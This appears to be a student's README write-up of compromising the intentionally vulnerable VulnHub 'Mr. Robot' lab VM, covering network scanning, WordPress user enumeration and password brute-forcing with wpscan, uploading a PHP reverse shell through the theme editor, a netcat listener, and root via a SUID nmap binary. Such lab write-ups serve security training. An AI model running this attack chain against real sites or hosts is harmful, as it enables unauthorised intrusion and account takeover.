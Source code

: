 # 🧪 Hands-On Exploitation – Mr. Robot VM (Week 3 & 4)

This hands-on task focused on exploiting the vulnerable **Mr. Robot** VM from VulnHub using real-world techniques and achieving root access through privilege escalation.

---

## 🖥️ Target VM

* **Name:** Mr. Robot
* **Platform:** [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/)
* **Goal:** Gain root access

---

## ⚙️ Environment Setup

* **Kali Linux** (Attacker machine)
* **Mr. Robot VM** (Target machine)
* **VirtualBox Network Mode:** NAT Network 

---

## 🔍 Step 1: Network Setup

* Identified Kali IP using:

  ```bash
  ifconfig
  ```
* Discovered target VM using:

  ```bash
  netdiscover -r 10.0.2.0/24
  ```

---

## 🕵️ Step 2: Reconnaissance

* Scanned the Mr. Robot VM for open ports:

  ```bash
  nmap -sV -A -T4 10.0.2.7
  ```

* Discovered:

  ```
  PORT    STATE  SERVICE    VERSION
  80/tcp  open   http       Apache httpd
  443/tcp open   https      Apache httpd
  ```

---

## 🌐 Step 3: Website Enumeration

* Visited: `http://10.0.2.7`

* Ran `dirb` to find hidden directories:

  ```bash
  dirb http://10.0.2.7
  ```

* Discovered `/robots.txt` → Found:

  * `/fsocity.dic` → Wordlist
  * `/key-1-of-3.txt` → First flag

---

## 💣 Step 4: WordPress Exploitation

* Enumerated users with:

  ```bash
  wpscan --url http://10.0.2.7 --enumerate u
  ```

* Brute-forced login using:

  ```bash
  wpscan --url http://10.0.2.7 --usernames elliot --passwords fsocity.dic
  ```

* Credentials Found:

  * **Username:** elliot
  * **Password:** ER28-0652

* Logged into WordPress and uploaded a **PHP reverse shell** via 404.php:

  ```bash
  cp /usr/share/webshells/php/php-reverse-shell.php shell.php
  ```

* Set up listener:

  ```bash
  nc -lvnp 4444
  ```

* Triggered shell via browser:

  ```
  http://10.0.2.7/wp-content/themes/twentyfifteen/shell.php
  ```

---

## 🚀 Step 5: Privilege Escalation

* Found SUID binary:

  ```bash
  find / -perm -4000 2>/dev/null
  ```

* Exploited vulnerable `nmap` binary:

  ```bash
  nmap --interactive
  !sh
  ```

* ✅ Got **root shell** successfully.

---

## 🧠 Learnings

* Practiced full exploitation chain: **Recon → Exploit → Shell → Root**
* Understood the role of **wordlists, SUID bits, and manual enumeration**
* Used tools: `nmap`, `wpscan`, `dirb`, `netdiscover`, and `reverse shells`

---
